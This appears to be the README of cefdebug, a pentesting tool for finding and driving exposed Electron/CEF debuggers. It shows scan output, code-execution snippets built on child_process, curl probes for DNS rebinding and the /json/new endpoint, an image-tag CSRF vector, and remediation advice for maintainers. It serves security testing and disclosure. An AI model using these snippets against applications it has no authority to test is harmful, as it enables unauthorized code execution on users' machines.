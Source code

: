# cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In some configurations, you can pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742
Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1946

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

### Known Examples

Here are a list of code snippets I've seen that allow code exec in different electron
applications.

`process.mainModule.require('child_process').exec('calc')`

`window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")`

`require('child_process').spawnSync('calc.exe')`

`Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))`

### Notes
Here are things to test if you find a debugger.

* Does it prevent [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)?

`$ curl -H 'Host: example.com' -si 'http://127.0.0.1:9234/json/list'`

🚨 If that works (i.e. json response), this is **remotely** exploitable. 🚨

Newer versions of chromium require that the Host header match `localhost` or an
IP address to prevent this. If this works, the application you're looking at is
based on an older version of chromium, and leaving the debugger enabled can be
**remotely** exploited. You have found a critical vulnerability and should
report it urgently.

* Is the `new` command functioning?

`$ curl -si 'http://127.0.0.1:9234/json/new?javascript:alert(1)'`

🔥🚨 If that works (i.e. a json response), this is **easily** **remotely** exploitable. 🚨🔥

This command requires no authentication, and has no CSRF protection. Just
`<img src=http://127.0.0.1:port/json/new?javascript:...>` in a website is
enough to exploit it. Even if the port is randomized, it can be brute forced
easily.

This is a very critical vulnerability, and should be reported urgently.

# Solution

If you maintain a CEF project and you've noticed you're vulnerable to this
attack, you probably need to change this setting in your `cef_settings_t`
for production builds:

https://magpcss.org/ceforum/apidocs3/projects/(default)/_cef_settings_t.html#remote_debugging_port

In electron, it's possible you're doing something like:

`app.commandLine.appendSwitch('remote-debugging-port'...)`

If you're using node, perhaps you're using `--inspect` on child processes.

https://nodejs.org/de/docs/guides/debugging-getting-started/#security-implications

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. 

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.
